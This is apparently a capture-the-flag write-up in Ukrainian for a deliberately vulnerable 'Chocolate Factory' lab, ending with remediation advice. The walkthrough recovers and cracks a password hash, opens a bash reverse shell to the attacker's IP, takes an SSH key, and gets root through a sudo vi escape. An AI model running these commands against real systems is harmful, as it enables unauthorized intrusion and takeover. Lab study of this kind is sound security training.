










# Chocolate Factory - A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory! 

Складність: Easy

Ціль: 10.114.134.73

## 1. Розвідка (Reconnaissance & Enumeration)

### 1.1. Сканування портів (Nmap)  
  Повний результат сканування збережено у файлі [`nmap_result.txt`](./nmap_result.txt).  
  Виявлені цікаві порти:`21 (FTP)`, `22 (SSH)`, `80 (HTTP)`, `113 (Ident)`.

### 1.2. Дослідження FTP та Стеганографія
   На сервері виявлено можливість анонімного входу на FTP:
   ```bash
   └─$ ftp 10.114.134.73
   ```

      Звідти було завантажено зображення `gum_room.jpg`.
  
   


      Перевіряємо зображення на наявність прихованих файлів за допомогою `steghide`:
   ```bash
   └─$ steghide extract -sf gum_room.jpg 
   Enter passphrase: 
   wrote extracted data to "b64.txt".
   ```
      Пароль виявився порожнім (просто натиснуто Enter).

      Отриманий файл `b64.txt` містив рядок у форматі `Base64`. Після декодування ми отримали хеш пароля користувача `charlie`:
   ```bash
   ─$ cat b64.txt | base64 -d
   ...
   charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
   ```

      Зберігаємо хеш у файл та брутфорсимо його через `John the Ripper` зі словником `rockyou.txt`:
   ```bash
   └─$ echo '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' > hash.txt
   └─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
   ```

   

### 1.3. Веб-розвідка та Пошук Ключа
   Під час дослідження веб-сервера на порту `80` було знайдено файл `key_rev_key`. Завантажуємо та аналізуємо його:   
   ```bash
   └─$ curl http://10.114.134.73:80/key_rev_key > key_rev_key
   └─$ file key_rev_key                                                                                                               
   key_rev_key: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0,   BuildID[sha1]=8273c8c59735121c0a12747aee7ecac1aabaf1f0, not stripped
   ```
      Файл виявився 64-бітним ELF-виконуваним файлом для Linux. За допомогою утиліти `strings` дістаємо з нього секретний ключ, який знадобиться нам на пізніше:
   ```bash
   └─$ strings key_rev_key
   ...
   congratulations you have found the key:   
   b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
   ...
   ```

      Запускаємо сканування директорій за допомогою `Gobuster`:
   ```bash
   └─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.114.134.73 -k -t 50 -x html,php,txt
   ```

   

      Знаходимо сторінку `home.php`, яка містить веб-інтерфейс (командний шелл) для виконання системних команд.

   

## 2. Отримання початкового доступу (Initial Access)

   Через виявлену RCE (Remote Code Execution) на сторінці `home.php` прокидаємо зворотний шелл (Reverse Shell) на нашу атакуючу машину:
   ```bash
   /bin/bash -c 'bash -i >& /dev/tcp/192.168.130.250/4545 0>&1'
   ```
   
   Отримуємо сесію від імені користувача `www-data`:

   

   У домашній директорії користувача `charlie` знаходимо приватний SSH-ключ `teleport` (`id_rsa`).

   

   Забираємо його, виставляємо правильні права та підключаємося по SSH, щоб отримати стабільний термінал:
   ```bash
   └─$ chmod 600 id_rsa
   └─$ ssh -i id_rsa charlie@10.114.134.73
   ```

   У цій же директорії успішно забираємо перший прапор користувача: `user.txt`.

   

## 3. Підвищення привілеїв (Privilege Escalation to Root)

   Перевіряємо дозволені команди для поточного користувача через `sudo -l`:

   

   Бачимо специфічне правило:
      `(ALL : !root) NOPASSWD: /usr/bin/vi`

   Нам дозволено запускати текстовий редактор `vi` від імені будь-кого, окрім `root`. Відомий баг обходу користувача `sudo -u #-1` на цій версії системи виявився пропатченим.


   Звертаємося до ресурсу [GTFOBins](https://gtfobins.org/gtfobins/vi/) для пошуку обходу обмежень `vi`. Оскільки правило перевіряє лише заборону на виклик користувача `root`, але дозволяє виконувати сам бінарник з будь-якими параметрами, ми можемо змусити `vi` виконати системний шелл за допомогою аргументу командного рядка `-c` ще до повної ініціалізації обмежень:

   Експлоїт спрацьовує, і ми миттєво отримуємо шелл з правами суперкористувача (`uid=0(root)`):
   ```bash
   sudo vi -c ':!/bin/sh' /dev/null
   ```

   

## 4. Дешифрування фінального прапора

   У директорії `/root/` знаходимо Python-скрипт `root.py`, який відповідає за генерацію фінального прапора:
   ```python
   from cryptography.fernet import Fernet
   import pyfiglet
   key=input("Enter the key:  ")
   f=Fernet(key)
   encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
   dcrypt_mess=f.decrypt(encrypted_mess)
   ...
   ```

   Під час запуску оригінального скрипта виникає помилка сумісності типів даних у Python 3 (`TypeError: token must be bytes`), оскільки змінна `encrypted_mess` передається як звичайний рядок (`String`) замість байтів.
   Виправляємо помилку автора «на льоту» за допомогою однорядкового Python-скрипта в консолі, примусово додавши префікс `b` до зашифрованого повідомлення та підставивши раніше знайдений ключ Fernet:
   ```bash
   python3 -c "from cryptography.fernet import Fernet; f=Fernet('-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='); print(f.decrypt(b'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ').decode())"
   ```
   
   Фінальний прапор:
   
   


## Висновки (Conclusions & Remediation)

Ця кімната наочно демонструє, як декілька дрібних помилок у конфігурації (Misconfigurations) складаються в єдиний і смертоносний вектор атаки (Exploit Chain):

1. **Небезпечне збереження чутливих даних (Sensitive Data Exposure):** 
   * Залишений анонімний доступ до FTP-сервера дозволив отримати стеганографічне зображення.
   * Зберігання виконуваних файлів із зашитими «хардкод» ключами (`key_rev_key`) у відкритій веб-директорії полегшило дешифрування фінальних даних.
   * *Рекомендація:* Ніколи не залишайте конфіденційні файли, резервні копії (backups) чи вихідні коди у публічному просторі веб-сервера.

2. **Слабкі паролі (Weak Password Policy):**
   * Хеш системного користувача був легко зламаний за допомогою стандартного словника `rockyou.txt` за лічені секунди.
   * *Рекомендація:* Використовуйте складні паролі (мінімум 14-16 символів із різними регістрами та спецсимволами) та сучасні стійкі алгоритми хешування (наприклад, Argon2 або bcrypt замість SHA-512 за замовчуванням).

3. **Помилки у налаштуванні правил `sudoers` (Flawed Sudo Policy):**
   * Обмеження `(ALL : !root)` виявилося абсолютно недієвим проти утиліт на кшталт `vi`, `vim` або `less`, які мають вбудований функціонал виконання системних команд (`!sh`). Навіть без використання вразливості CVE-2019-14287 (через UID `-1`), бінарник дозволив виконати довільний код з правами ініціатора `sudo`, тобто `root`.
   * *Рекомендація:* При налаштуванні `sudoers` завжди дотримуйтесь принципу найменших привілеїв (Principle of Least Privilege). Уникайте надання прав на запуск інтерактивних текстових редакторів, компіляторів чи інтерпретаторів через `sudo`. Якщо це необхідно — використовуйте обмежені версії (наприклад, `rvim` замість `vi`) або чітко обмежуйте параметри запуску.
